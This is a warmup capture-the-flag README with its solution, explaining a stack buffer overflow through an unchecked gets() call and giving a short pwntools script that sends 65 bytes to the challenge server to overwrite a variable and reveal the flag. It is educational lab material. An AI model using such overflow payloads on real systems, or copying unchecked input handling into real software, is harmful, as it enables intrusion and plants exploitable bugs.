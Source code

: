 # Varied Fun

Difficulty Level: Warmup
 
It is time to learn about [Buffer Overflow](https://ctf101.org/binary-exploitation/buffer-overflow/).  Overwrite ***target*** to get the flag
 
Connect via `nc challenge.ctf-fun.xyz 14004`

PS: Challenges in this category require a linux environment read [here](https://docs.google.com/document/d/13RjL_RWibA9xYOKvSCXpTGG0D2ZYa3kDzprGNa8ypeA/edit?usp=sharing) for a guide to installing a linux VM

### Hints

- [gets](https://www.tutorialspoint.com/c_standard_library/c_function_gets.htm) is a very dangerous function because it doesn't check for input length. Try giving an input longer than the length of buffer 
P.S `buffer[64]` = buffer has a length of 64



## Deployment

```bash
cd service
sudo ./variedfun.sh &
```

## Solution

When we look at the source code we see that target is initialized before buffer which makes target right above buffer.

![image2](../screenshots/variedfun/image2.png?raw=true "Image 2")

When input is being sent into buffer through gets, it grows upwards

![image4](../screenshots/variedfun/image4.png?raw=true "Image 4")
![image3](../screenshots/variedfun/image3.png?raw=true "Image 3")

Until eventually, when all 64 characters of space is filled, it will overwrite target thus changing the value of target

![image5](../screenshots/variedfun/image5.png?raw=true "Image 5")

```python
"""
Provide a buffer longer than 64 bytes and we win!
"""

from pwn import *

#sh = process('./variedfun')
sh = remote("challenge.ctf-fun.xyz", 14004)

payload = b"A" * 64 + b"B"

sh.sendline(payload)
sh.interactive()
```
### Flag
19C4{Im_1337_hakkerman_lmao}
